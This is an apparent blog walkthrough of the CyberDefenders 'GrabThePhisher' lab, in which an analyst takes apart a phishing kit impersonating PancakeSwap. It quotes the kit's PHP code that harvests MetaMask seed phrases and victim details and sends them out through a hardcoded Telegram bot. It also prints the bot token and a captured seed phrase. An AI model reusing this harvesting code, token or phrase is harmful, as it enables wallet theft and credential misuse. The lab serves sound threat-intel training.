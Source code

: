```yaml
---
title: "GrabThePhisher"
classes: wide
header:
  teaser: /assets/images/Covers/GrabThePhisher.jpeg
ribbon:   White
description: "A Walkthrough to the Cyberdefenders blue team lab focusing on Threat Intel and Reverse Engineering."
categories:
  - Reverse Engineering
toc: true
---
```




# [**GrabThePhisher**](https://cyberdefenders.org/blueteam-ctf-challenges/95/)
## **Scenario:**

An attacker compromised a server and impersonated https://pancakeswap.finance/, a decentralized exchange native to BNB Chain, to host a phishing kit at https://apankewk.soup.xyz/mainpage.php. The attacker set it as an open directory with the file name "pankewk.zip". 

Provided the phishing kit, you as a soc analyst are requested to analyze it and do your threat intel homework.

**Author:** Milann SHRESTHA     
**Difficulty:** Easy 

## Walkthrough
We start by unziping the file named `c75-GrabThePhisher.zip`, which has been provided, using `cyberdefenders.org` as password.

**Q1:** Which wallet is used for asking the seed phrase?

After decompressing, we are left with a some files including an HTML file, exploring the content we see some wallets, only one off these wallets matches 

![alt text](wallets.png)

Exploring the code, We see that only one wallet that has a "onclick" event for its buttons is `MetaMask` which uses JavaScript (vib(1); jj2 = true; jj = true;). This is commonly designed for asking the seed phrase.

![alt text](index-3.png)
![alt text](index-1.png) 
![alt text](index-2.png)

>**Answer:** `MetaMask`

___

**Q2:** What is the file name that has the code for the phishing kit?

Opening the Metamask folder, there are three files: 
- Fonts
- index.html
- metamask.php

Inside the `metamask.php`, we see thee following code:

```php
$date = date("m.d.Y");
$message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> <code>" . $_POST["data"] . "</code>
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";
```
This constructs an HTML-formatted message containing:
- The wallet type (MetaMask is hardcoded).
- The recovery phrase entered by the victim ($_POST["data"]).
- The attacker captures this phrase, which can be used to take full control of the victim’s wallet.
- The IP address, geolocation (country and city), and the user-agent string (browser and device information).

So, this is the file that  has the code for the phishing kit.

>**Answer:** `MetaMask.php`

___

**Q3:** In which language was the kit written?

>**Answer:** `PHP`

___


**Q4:** What service does the kit use to retrieve the victim's machine information?

At the beginning the code, we see the following block:

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
```

This block of code uses the `Sypex Geo` API to retrieve the geolocation of the user based on their IP address `$_SERVER['REMOTE_ADDR']`, The country and city names are extracted and stored in $geo and $city.

>**Answer:** `Sypex Geo`

___

**Q5:** How many seed phrases were already collected?

later in the code, we see this block:

```php
$_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

Which is used to ensures the attacker has a backup of the stolen phrases, the recovery phrase `$_POST['data']` is also logged locally in a file `log.txt` on the server.

Now, we go the `log.txt`, we see that it has 3 already collected phrases:

![alt text](logs.png)

>**Answer:** `3`

___

**Q6:** Write down the seed phrase of the most recent phishing incident?

>**Answer:** `father also recycle embody balance concert mechanic believe owner pair muffin hockey`

___

**Q7:** Which medium had been used for credential dumping?

The following block of code uses the `sendTel()` function to send a crafted message to a Telegram chat.

The Telegram Bot API is used here. The bot token `$token` and chat ID `$id` are hardcoded.

It constructs the Telegram API URL and uses `file_get_contents()` to send the message via the bot, delivering the stolen information (recovery phrase, IP, etc.) to the attacker's Telegram account.

```php
sendTel($message);  
	
function sendTel($message){
    $id = "5442785564"; 
    $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
    $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
    file_get_contents($filename);
```

>**Answer:** `Telegram`

___

**Q8:** What is the token for the channel?

>**Answer:** `5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10`

___

**Q9:** What is the chat ID of the phisher's channel?

>**Answer:** `5442785564`

___

**Q10:** What are the allies of the phish kit developer?

The attacker had fingerprinted his code with the following greeting massage:

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
 */
```

>**Answer:** `j1j1b1s@m3r0`

___

**Q11:** What is the full name of the Phish Actor?

Using the following request to the getChat method:

```json
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

The response is:

![alt text](api_response.png)

>**Answer:** `Marcus Aurelius`

___

**Q12:** What is the username of the Phish Actor?

>**Answer:** `pumpkinboii`


___
___

<p align="center"><span style="color:#00FFFF;">THE END</span></p>


___
___